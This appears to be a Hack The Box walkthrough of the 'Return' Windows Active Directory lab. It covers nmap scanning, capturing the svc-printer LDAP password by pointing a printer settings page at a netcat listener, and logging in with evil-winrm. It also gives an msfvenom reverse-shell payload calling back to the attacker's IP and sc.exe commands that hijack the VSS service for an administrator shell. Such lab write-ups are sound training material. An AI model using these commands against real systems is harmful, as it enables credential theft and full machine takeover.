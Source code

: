 ```yaml
---
title: 'HTB - Return'
author: paincakes
date: 2023-02-11 20:55:00 +0800
categories: [HTB, Easy]
tags: [AD, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Return/INFO.png)

# Summary
This Machine “Return” specially focuses on exploiting a printer’s configuration which was exposed on the website the server was hosting by which we could exploit it and get the credentials to access the machine. Then we see that were the are part of “Server Operators groups” which we could use for gaining access to the reverse shell with Administrator Privilege. It was an easy and straight forward box.


## NMAP Scanning

Let’s start with scanning the IP with NMAP to enumerate open ports and the services running on the host.

![NMAP](https://paincakes.sirv.com/Images/HTB/Return/nmap.png)

As we can see lots of ports are open, but the main take away is that this is a Windows Machine that is inside an Active Directory domain. If you are not sure, you can always tell by these usual suspects:

- Port 135/139/445 running SMB 
- Port 88 running Kerberos
- Port 389/636 running LDAP

We do have port 80 open which is running a Microsoft IIS Web Server so let’s check that
out first.


## Web Server Enumeration 

![Return](https://paincakes.sirv.com/Images/HTB/Return/Web%20Page.png)

It was a static webpage with only **Home** and **Settings** Page working.
 
![Return](https://paincakes.sirv.com/Images/HTB/Return/Settings.png)

The settings page is likely to be the settings of the Printer in the AD. It gives us the username `svc-printer`, but the password is hidden, looking at the browser console, only the Server Address text input works as the parameter of IP when you press the “Update” button.

We can change the server address to our IP address and listen to port 389 which uses insecure version of LDAP which returns the credentials in plain text when queried. So first checking our IP address and listen to port 389 using netcat.

![Return](https://paincakes.sirv.com/Images/HTB/Return/netcat.png)

Change the “Server Address” to our IP address and press “Update”.

![Return](https://paincakes.sirv.com/Images/HTB/Return/server%20ip.png)

The page will get stuck, and we will get the password of “svc-printer” from the LDAP query in our `netcat` listener.

![Return](https://paincakes.sirv.com/Images/HTB/Return/svc-password.png)

We get the pasword! ezpz

## Enumerating Shares

Accessing the shares using `crackmapexec` tool,

![Return](https://paincakes.sirv.com/Images/HTB/Return/cme%20smb.png)

We had READ/WRITE access on the shares, so maybe we can even access the PS shell using `evil-winrm` tool.

## Getting the $shell and User flag

`evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.10.11.108`

![Return](https://paincakes.sirv.com/Images/HTB/Return/evil-winrm.png)

We can find the user flag in the `C:\Users\svc-printer\Desktop\` directory.

![Return](https://paincakes.sirv.com/Images/HTB/Return/user%20flag.png)

## Privilege Escalation

Executing the command `net user` svc-printer shows us that we are part of the “Server Operators group”. Members of this group can start/stop system services. Server Operators have this capability, and the command gets executed with Administrative privileges, so we can modify the service binary path to obtain reverse shell with admin privilege.

![Return](https://paincakes.sirv.com/Images/HTB/Return/net%20user.png)

### Building Malicious .exe file with MSFvenom

We can use msfvenom to build a “exe” payload which establishes a reverse shell of the remote machine.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4545 -f exe > shell.exe`

![Return](https://paincakes.sirv.com/Images/HTB/Return/msfvenom.png)

From the `evil-winrm` remote connection we can easily upload our payload from its “upload” functionality.

### Getting  ROOT 

Now, Starting the `netcat` listener at port 4545 and running the following commands on the `evil-winrm` shell.

```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe”
sc.exe stop vss
sc.exe start vss
```

![Return](https://paincakes.sirv.com/Images/HTB/Return/start%20stop.png)

After executing the start command the terminal will freeze and we will get the reverse shell with Administrator privilege on our `netcat` listener.

![Return](https://paincakes.sirv.com/Images/HTB/Return/root%20shell.png)

The root flag is found in `C:\Users\Administrator\Desktop\` directory.

![Return](https://paincakes.sirv.com/Images/HTB/Return/root%20flag.png)

